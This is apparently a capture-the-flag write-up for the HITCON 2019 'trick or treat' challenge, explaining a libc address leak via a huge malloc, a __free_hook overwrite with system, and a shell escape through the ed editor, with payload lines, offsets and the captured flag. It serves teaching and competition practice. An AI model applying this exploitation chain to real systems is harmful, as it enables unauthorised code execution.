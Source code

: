 # CTFhitcon2019

## Instructions

Run treat.py to run the local version. Run trick.py for the remote version.

## Summary
We overwrite __free_hook__ with __system__. Then invoke __free__, which is now __system__, and pass in the argument "ed" to open the ed editor which allows us to get shell via !'/bin/sh'

## In depth write up

The disassembly of the file is as follows:

![Disassembly of the file](ida.png)

When running checksec we get these results:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      No      0
```

The program starts by asking for an input size to send to var7 = malloc(size). From now on I will refer to var7 as *mValue*
After sending the input size it prints out a "Magic" pointer value which points towards where the heap was allocated.

For example, mallocing 100 gives us a pointer to 0x55590e00f260
```
Size:100
Magic:0x55590e00f260
```
/proc/PID/maps
```
55590e00f000-55590e030000 rw-p 00000000 00:00 0                          [heap]
7f3893334000-7f389351b000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
In order for malloc to allocate a huge page it needs to be given a size of 0x1000000 (Decimal 16777216)
Doing this changes where the heap chunk is allocated and is placed near libc. When running the program twice allocating a huge page, we observe something peculiar with the proc/PID/maps output.

Run 1:
```
Size:16777216
Magic:0x7f0aadd25010
```
/proc/PID/maps
```
5567221bc000-5567221dd000 rw-p 00000000 00:00 0                          [heap]
7f0aadd25000-7f0aaed26000 rw-p 00000000 00:00 0
7f0aaed26000-7f0aaef0d000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is at 0x7f0aaed26000. Magic is at 0x7f0aadd25010. Difference is 0x1000FF0.

Run 2:
```
Size:16777216
Magic:0x7f2aeafd4010
```
/proc/PID/maps
```
55f249f64000-55f249f85000 rw-p 00000000 00:00 0                          [heap]
7f2aeafd4000-7f2aebfd5000 rw-p 00000000 00:00 0
7f2aebfd5000-7f2aec1bc000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is 0x7f2aebfd5000. Magic is at 0x7f2aeafd4010. Difference is 0x1000FF0

This means that every time we allocated a huge page with malloc magic will be a fixed distance from libc of 0x1000FF0.
Now that we know where libc starts we can leverage that to get the addresses of __free_hook__ and __system__ by using pwntools like so:
```
libc = ELF('libc.so.6')
free_hook = libc.symbols["__free_hook"]
system = libc.symbols["system"]
```
After getting the Magic value we are able to assign all of the variables we will be using
```
libc_offset = 0x1000FF0
free_hook = 0x3ed8e8
system = 0x4f440
libcBase = magic+libc_offset
```

After setting up our environment by alloating a hugepage we are presented with the prompt `Offset & Value:`
From the disassembly we can see that it is expecting input in the format "%lx %lx" which means it is looking for long hex input. This means we don't need to format our input in a special way and can send addresses "as is".
What the program does with Offset and Value is it passes value to the offset of our malloced value. For example `mValue[offset] = value`
The program asks for Offset & Value twice.
The first Offset and Value we send is `(libc_offset+free_hook)/8` for the offset and `(libcBase+system)` for the value.
For the Offset, we add together __libc_offset__ and __free_hook__ and then divide the sum by 8. We do this because we are already starting at __Magic__ so we need to add __libc_offset__ to get to the __libcBase__. Then we add the offset of __free_hook__ so that we are pinpointing to the address of __free_hook__. We divide by 8 because *mValue* is a QUADWORD. This means that every *mValue* is equivalent to 8 bytes (64 bits). The Value is __libcBase__ plus the offset of __system__. This points towards the __system__ call. The payload is as follows `payload = "%x %x" % ((libc_offset+free_hook)/8,(libcBase+system))`
After sending this payload, we have succesfully overwritten the __free_hook__ call with the __system__ call.
For our second call we need to call __free__ in order to invoke our newly placed __system__ call. We can achieve this by sending 1024 of an arbitrary character as the offset to invoke __free__. When __free__ is invoked the argument passed to it is the value that was supposed to be set at the offset of *mValue*. For example
```
mValue[1024] = value
                 v
          free(value)
```
With our altered code it now looks like this
```
mValue[1024] = value
                 v
        system(value)
```
So, we can send a value to system as an argument. However, this value can only consist of valid hex values such as 0123456789abcdef. By running the script hexcommands.py we get the output:
```
ed
dd
df
c99
cc
c89
bc
dc
```
The command of interest is the __ed__ command. This launches the [ed](https://linux.die.net/man/1/ed) text editor.
So, for our second Offset & Value input we use `payload = ('1'*1024+' '+'ed')`
Now that we are in the ed editor all we need to do is send the command `!'/bin/sh'`.
After that, we can CAT out the flag by doing `CAT /home/trick_or_treat/flag`
This gives us the flag `hitcon{T1is_i5_th3_c4ndy_for_yoU}`
